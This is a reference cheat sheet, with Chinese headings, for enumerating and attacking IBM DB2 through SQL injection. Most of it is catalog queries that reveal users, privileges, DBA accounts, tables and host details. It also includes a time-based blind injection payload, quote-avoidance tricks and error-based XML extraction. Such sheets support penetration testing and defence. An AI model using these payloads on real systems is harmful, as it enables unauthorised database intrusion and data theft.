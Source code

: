  ##### 版本
select versionnumber, version_timestamp from sysibm.sysversions;
select service_level from table(sysproc.env_get_inst_info()) as instanceinfo
select getvariable('sysibm.version') from sysibm.sysdummy1 -- (v8+)
select prod_release,installed_prod_fullname from table(sysproc.env_get_prod_info()) as productinfo
select service_level,bld_level from sysibmadm.env_inst_info
 ##### 注释
	--
 ##### 当前用户
	select user from sysibm.sysdummy1
	select session_user from sysibm.sysdummy1
	select system_user from sysibm.sysdummy1
 ##### 列出用户
	DB2 使用操作系统帐户
	select distinct(authid) from sysibmadm.privileges -- priv required
	select grantee from syscat.dbauth -- incomplete results
	select distinct(definer) from syscat.schemata -- more accurate
	select distinct(grantee) from sysibm.systabauth -- same as previous
 ##### 列出权限
	select * from syscat.tabauth -- shows priv on tables
	select * from syscat.tabauth where grantee = current user -- shows privs for current user
	select * from syscat.dbauth where grantee = current user;;
	select * from SYSIBM.SYSUSERAUTH — List db2 system privilegies
 ##### 列出 DBA 帐户
	select distinct(grantee) from sysibm.systabauth where CONTROLAUTH='Y'
	select name from SYSIBM.SYSUSERAUTH where SYSADMAUTH = ‘Y’ or SYSADMAUTH = ‘G’
 ##### 当前数据库
	select current server from sysibm.sysdummy1
 ##### 列出数据库
	select distinct(table_catalog) from sysibm.tables
	SELECT schemaname FROM syscat.schemata;
 ##### 列出列
	select name, tbname, coltype from sysibm.syscolumns -- also valid syscat and sysstat
 ##### 列表表
	select table_name from sysibm.tables
	select name from sysibm.systables
 ##### 从列名中查找表
	select tbname from sysibm.syscolumns where name='username'
 ##### 选择第 N 行
	select name from (select * from sysibm.systables order by name asc fetch first N rows only) order by name desc fetch first row only
 ##### 选择第 N 个字符
	select substr('abc',2,1) FROM sysibm.sysdummy1 -- returns b
 ##### 按位与/或/非/异或
	select bitand(1,0) from sysibm.sysdummy1 -- returns 0. Also available bitandnot, bitor, bitxor, bitnot
 ##### ASCII 值
	Char	select chr(65) from sysibm.sysdummy1 -- returns 'A'
 ##### 字符 -> ASCII 值
	select ascii('A') from sysibm.sysdummy1 -- returns 65
 ##### Cast
	select cast('123' as integer) from sysibm.sysdummy1
	select cast(1 as char) from sysibm.sysdummy1
 ##### 字符串连接
	select 'a' concat 'b' concat 'c' from sysibm.sysdummy1 -- returns 'abc'
	select 'a' || 'b' from sysibm.sysdummy1 -- returns 'ab'
 ##### 避免引用
	SELECT chr(65)||chr(68)||chr(82)||chr(73) FROM sysibm.sysdummy1 -- returns “ADRI”. Works without select too
 ##### 时间延迟
	重查询，例如：如果用户以 ascii 68 ('D') 开头，将执行重查询，延迟响应。但是，如果用户不以 ascii 68 开头，则不会执行繁重的查询，因此响应会更快。

	' and (SELECT count(*) from sysibm.columns t1, sysibm.columns t2, sysibm.columns t3)>0 and (select ascii(substr(user,1,1)) from sysibm.sysdummy1)=68 
 ##### 序列化为 XML（基于错误）
	select xmlagg(xmlrow(table_schema)) from sysibm.tables -- returns all in one xml-formatted string
	select xmlagg(xmlrow(table_schema)) from (select distinct(table_schema) from sysibm.tables) -- Same but without repeated elements
	select xml2clob(xmelement(name t, table_schema)) from sysibm.tables -- returns all in one xml-formatted string (v8). May need CAST(xml2clob(… AS varchar(500)) to display the result.
 ##### 命令执行和本地文件访问
	只允许从程序或 UDF 中使用。

	主机名/IP 和操作系统信息
	select os_name,os_version,os_release,host_name from sysibmadm.env_sys_info -- requires priv
	数据库文件的位置
	select * from sysibmadm.reg_variables where reg_var_name='DB2PATH' -- requires priv
	系统配置
	select dbpartitionnum, name, value from sysibmadm.dbcfg where name like 'auto_%' -- Requires priv. Retrieve the automatic maintenance settings in the database configuration that are stored in memory for all database partitions.
	select name, deferred_value, dbpartitionnum from sysibmadm.dbcfg